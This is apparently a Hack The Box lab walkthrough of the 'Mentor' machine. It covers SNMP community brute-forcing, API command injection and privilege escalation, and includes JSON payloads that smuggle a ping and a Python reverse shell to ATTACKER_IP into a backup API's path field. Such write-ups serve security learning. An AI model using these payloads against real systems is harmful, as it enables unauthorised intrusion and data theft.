This box is rated medium difficulty on HTB. It involves brute-forcing an SNMP community string which leads to us finding a password being used an argument. Using that password to authenticate on an API subdomain allows us to get a reverse shell on a Docker container by means of blind command injection. Port forwarding a postgresql server to our local machine lets us dump a database and crack user credentials, which can be used to authenticate over SSH. Finally, we discover hardcoded credentials in SNMP configuration files and abuse Sudo permissions to escalate privileges to root.

## Scanning & Enumeration
### Host Scanning
I begin with an Nmap scan against the target IP to find all running TCP services on the host.

```
$ sudo nmap -p22,80 -sCV 10.129.228.102 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-14 00:59 -0400
Nmap scan report for 10.129.228.102
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c7:3b:fc:3c:f9:ce:ee:8b:48:18:d5:d1:af:8e:c2:bb (ECDSA)
|_  256 44:40:08:4c:0e:cb:d4:f1:8e:7e:ed:a8:5c:68:a4:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://mentorquotes.htb/
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
```

Repeating the same for UDP returns an SNMP server alive on port 161.

```
$ sudo nmap -sU --top-ports 50 10.129.228.102 -v
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-14 01:05 -0400
Initiating Ping Scan at 01:05
Scanning 10.129.228.102 [4 ports]
Completed Ping Scan at 01:05, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:05
Completed Parallel DNS resolution of 1 host. at 01:05, 0.50s elapsed
Initiating UDP Scan at 01:05
Scanning 10.129.228.102 [50 ports]
Discovered open port 161/udp on 10.129.228.102
Increasing send delay for 10.129.228.102 from 0 to 50 due to max_successful_tryno increase to 4
Increasing send delay for 10.129.228.102 from 50 to 100 due to max_successful_tryno increase to 5
Increasing send delay for 10.129.228.102 from 100 to 200 due to max_successful_tryno increase to 6
[...]
```

Looks like a Linux machine with three ports open:
- SSH on port 22
- An Apache web server on port 80
- SNMP on port 161

### Main Website
Not a whole lot we can do with that version of OpenSSH without credentials, so I fire up Ffuf to search for subdirectories and Vhosts in the background before heading over to the website. Default scripts also show that the web server is redirecting us to `mentorquotes.htb` which I add to my `/etc/hosts` file to help with domain resolution while enumerating.

Checking out the landing page shows a site that is dedicated to serving motivational quotes to students.


Inspecting the page and its source code only discloses that this page is purely HTML and doesn't render anything, furthermore, none of my fuzzing attempts are returning anything interesting. 

## SNMP Misconfiguration
I move onto enumerating SNMP as it can hold heaps of information if not properly configured.

```
$ snmpwalk -c public -v2c mentorquotes.htb  
SNMPv2-MIB::sysDescr.0 = STRING: Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (143406) 0:23:54.06
SNMPv2-MIB::sysContact.0 = STRING: Me <admin@mentorquotes.htb>
SNMPv2-MIB::sysName.0 = STRING: mentor
SNMPv2-MIB::sysLocation.0 = STRING: Sitting on the Dock of the Bay
SNMPv2-MIB::sysServices.0 = INTEGER: 72
SNMPv2-MIB::sysORLastChange.0 = Timeticks: (3) 0:00:00.03
SNMPv2-MIB::sysORID.1 = OID: SNMP-FRAMEWORK-MIB::snmpFrameworkMIBCompliance
[...]
```

It seems like we're able to query the agent with a public community string which allows us to grep for any intriguing output.

```
$ snmpwalk -c public -v2c mentorquotes.htb > SNMPout.txt
                                                                                                                                                               
$ grep -i STRING SNMPout.txt 
SNMPv2-MIB::sysDescr.0 = STRING: Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64
SNMPv2-MIB::sysContact.0 = STRING: Me <admin@mentorquotes.htb>
SNMPv2-MIB::sysName.0 = STRING: mentor
SNMPv2-MIB::sysLocation.0 = STRING: Sitting on the Dock of the Bay
SNMPv2-MIB::sysORDescr.1 = STRING: The SNMP Management Architecture MIB.
SNMPv2-MIB::sysORDescr.2 = STRING: The MIB for Message Processing and Dispatching.
SNMPv2-MIB::sysORDescr.3 = STRING: The management information definitions for the SNMP User-based Security Model.
SNMPv2-MIB::sysORDescr.4 = STRING: The MIB module for SNMPv2 entities
SNMPv2-MIB::sysORDescr.5 = STRING: View-based Access Control Model for SNMP.
SNMPv2-MIB::sysORDescr.6 = STRING: The MIB module for managing TCP implementations
SNMPv2-MIB::sysORDescr.7 = STRING: The MIB module for managing UDP implementations
SNMPv2-MIB::sysORDescr.8 = STRING: The MIB module for managing IP and ICMP implementations
SNMPv2-MIB::sysORDescr.9 = STRING: The MIB modules for managing SNMP Notification, plus filtering.
SNMPv2-MIB::sysORDescr.10 = STRING: The MIB module for logging SNMP Notifications.
HOST-RESOURCES-MIB::hrSystemDate.0 = STRING: 2026-4-14,5:20:32.0,+0:0
HOST-RESOURCES-MIB::hrSystemInitialLoadParameters.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-56-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
```

I don't find much while just looking for strings, however SNMP offers more than just the standard MIBs. A Management Information Base (MIB) is a structured collection of object identifiers (OIDs) that define how information about a device is organized and accessed via the Simple Network Management Protocol (SNMP).

The lesser-known, yet very useful, Extended MIBs are vendor-specific Management Information Bases that go beyond the standard SNMP MIBs, exposing additional details unique to a device (like hardware stats, configs, or proprietary features). They're effective for enumeration because they often reveal deeper, less obvious information that isn't covered by default OIDs, sometimes including sensitive operational data. Attackers and auditors can leverage them to gain a more complete picture of the target environment than standard SNMP queries alone.

Referring to this [Hacktricks article](https://hacktricks.wiki/en/network-services-pentesting/pentesting-snmp/index.html?highlight=snmp%20en#enumerating-snmp) on enumerating this protocol, we can download the MIBs list and use it alongside snmpwalk to gather more information.

```
$ snmpwalk -c public -v2c mentorquotes.htb NET-SNMP-EXTEND-MIB::nsExtendOutputFull
NET-SNMP-EXTEND-MIB::nsExtendOutputFull = No more variables left in this MIB View (It is past the end of the MIB tree)
```
### Brute-Forcing Community String
Unfortunately, this doesn't return anything else for us. In SNMP, a community string in SNMP acts like a shared password that controls read or write access to a device's management data. SNMPwalk shows that we can authenticate using "public" but there are tons more out there, so I turn to brute forcing them with an [snmpbrute.py script](https://github.com/SECFORCE/SNMP-Brute/blob/master/snmpbrute.py).

```
$ python3 /usr/share/legion/scripts/snmpbrute.py -t mentorquotes.htb
   _____ _   ____  _______     ____             __     
  / ___// | / /  |/  / __ \   / __ )_______  __/ /____ 
  \__ \/  |/ / /|_/ / /_/ /  / __  / ___/ / / / __/ _ \
 ___/ / /|  / /  / / ____/  / /_/ / /  / /_/ / /_/  __/
/____/_/ |_/_/  /_/_/      /_____/_/   \__,_/\__/\___/ 

SNMP Bruteforce & Enumeration Script v1.0b
http://www.secforce.com / nikos.vassakis <at> secforce.com
###############################################################

Trying 199 community strings ...
10.129.228.102 : 161    Version (v2c):  b'internal'
10.129.228.102 : 161    Version (v1):   b'public'
10.129.228.102 : 161    Version (v2c):  b'public'
10.129.228.102 : 161    Version (v1):   b'public'
10.129.228.102 : 161    Version (v2c):  b'public'
```

I like using this tool as it supports v1 and v2c and is generally reliable. That output reveals another community string of "internal" which we can use to repeat the earlier steps.

### Credentials in HOST-RESOURCES-MIB
Grepping for all output containing strings shows a parameter used with a _login.py_ script on the system. The `HOST-RESOURCES-MIB::hrSWRunParameters.2094` MIB is comprised of the standard MIB for host/system info, the field that stores process arguments, and the specific process ID index in the table.

```
$ snmpwalk -c internal -v2c mentorquotes.htb > snmpout2.txt

$ grep -i STRING snmpout2.txt
```



Due to this being a script to authenticate, I'm going to guess that this is a password. The only username I've found so far is for an admin, but we still don't really have anywhere to use them at. 

## API Subdomain
These credentials do not work over SSH so I expand my web enumeration, ultimately leading me to an API subdomain that I add to my hosts file as well.

```
$ ffuf -u http://mentorquotes.htb -w /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.mentorquotes.htb" --fw 18 --mc all

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://mentorquotes.htb
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.mentorquotes.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response words: 18
________________________________________________

api                     [Status: 404, Size: 22, Words: 2, Lines: 1, Duration: 61ms]

:: Progress: [114442/114442] :: Job [1/1] :: 787 req/sec :: Duration: [0:02:37] :: Errors: 0 ::
```

Navigating to it returns JSON data saying that the detail could not be found.



I begin recursively fuzzing for common API endpoints that will let us authenticate or get more information about users.

```
$ ffuf -u http://api.mentorquotes.htb/FUZZ -w /opt/seclists/Discovery/Web-Content/api/api-endpoints-res.txt                               

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://api.mentorquotes.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/api/api-endpoints-res.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 83ms]
auth/login              [Status: 405, Size: 31, Words: 3, Lines: 1, Duration: 60ms]
docs                    [Status: 200, Size: 969, Words: 194, Lines: 31, Duration: 52ms]
docs/                   [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 55ms]
users/current           [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 55ms]
users/login             [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
quotes                  [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 56ms]
users                   [Status: 307, Size: 0, Words: 1, Lines: 1, Duration: 56ms]
:: Progress: [12334/12334] :: Job [1/1] :: 442 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

### Exploiting Vulnerable APIs
Hitting a few of these endpoints shows that we need a basic Authorization header, presumably a JWT, in order to use the APIs listed.


```
$ curl -s http://api.mentorquotes.htb/users/                   
{"detail":[{"loc":["header","Authorization"],"msg":"field required","type":"value_error.missing"},{"loc":["header","Authorization"],"msg":"field required","type":"value_error.missing"}]}
```


The most interesting one was for documentation, disclosing a list of APIs on the site as well as the schema used to authenticate to each. Towards the top of the page is an email address for a user named James as well.



I capture a request to `/auth/login` and supply the necessary JSON parameters, which in turn grants us an authorization token for the APIs.



Using that in subsequent requests to different API endpoints lets us list the users on the machine, only being James and a service account.



Normally, I'd try and create a new account with that signup place, but there isn't a spot for an admin identifier parameter, so I'll assume that James is already one as his name is only the documentations too. Since I uncovered the admin directory earlier, I'll fuzz it for more further endpoints.

```
$ ffuf -u http://api.mentorquotes.htb/admin/FUZZ -w /opt/seclists/Discovery/Web-Content/api/api-endpoints-res.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://api.mentorquotes.htb/admin/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/api/api-endpoints-res.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

backup                  [Status: 405, Size: 31, Words: 3, Lines: 1, Duration: 52ms]

:: Progress: [12334/12334] :: Job [1/1] :: 432 req/sec :: Duration: [0:00:28] :: Errors: 0 :: 
```

### Command Injection
Doing so, I discover an `/admin/backup` API that allows POST requests. After troubleshooting the response codes and adding a few headers needed, I get a 200 code while supplying a path parameter.



This API is most likely meant to make a backup of the site and place it in a user-supplied path, ultimately responding with a **"Done!"** message to confirm it took place. If improperly designed, we may be able to inject arbitrary commands into the code. I start out by testing to see if the server would ping my attacking machine.


```
{
  "path":  "test; ping -c4 10.10.14.243;"
}
```




The trailing semicolon seemed to be the magic trick to getting this to function properly. It's likely that the API is appending some type of string/parameter to the command in place which errors out our input otherwise.

Now that we have confirmed RCE via this endpoint, I standup a Netcat listener and start testing reverse shell payloads. Going down the list on [revshells.com](https://www.revshells.com/), the only one I got to work used Python to carry it out. It's also important to escape the double quotes in the payload as we are sending it in JSON data.


```
{
"path": "test; python -c 'import os,pty,socket;s=socket.socket();s.connect((\"ATTACKER_IP\",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';"
}
```




## Docker Container
Right away, we land on the box as root, however the hostname indicates that this is a Docker container. A bit of light enumeration on the filesystem confirms this and I discover a _db.py_ script under an application's directory that reveals a postgresql server running on another machine.

This `DATABASE_URL` line contains the default credentials to login there.



### Accessing postgresql Server
This was the only seemingly useful bit of info I could find on the machine, so I port forward the postgresql server to my local machine using [Chisel](https://github.com/jpillora/chisel) to enumerate the database. PostgreSQL runs on port 5432 by default, indicated by the lack of port number in the `DB_URL` line.

```
--On local machine--
$ ./chisel server -p 8001 --reverse

--On remote machine--
# ./chisel client 10.10.14.243:8001 R:5432:172.22.0.1:5432
```

Once that tunnel is setup, we can connect to the server using the psql tool. 

```
$ psql -h localhost -p5432 -U postgres
```



### Grabbing Credentials
There is only one interesting database named _mentorquotes_db_, and dumping the users table inside grants us MD5 hashes for James and the service account. We can only recover one for the ladder user.



Running out of places to authenticate to, I try these credentials over SSH which finally gives us a foothold on the actual machine. At this point, we can grab the user text inside of their home directory and start internal enumeration to escalate privileges towards root user.

## Privilege Escalation
Taking the context of how the service account should be used, I focus on configuration files for SNMP since we've already dumped the website's. 

```
$ cat /etc/snmp/snmpd.conf
```



Displaying the snmpd.conf file reveals a plaintext password that can also be used to switch users to James' account. Finally, by listing sudo permissions for James, we find that we has the capability to execute the `sh` binary as root user.



Dropping into a root shell to grab the final flag under their home directory completes this challenge. I hope this was helpful to anyone following along or stuck and happy hacking!
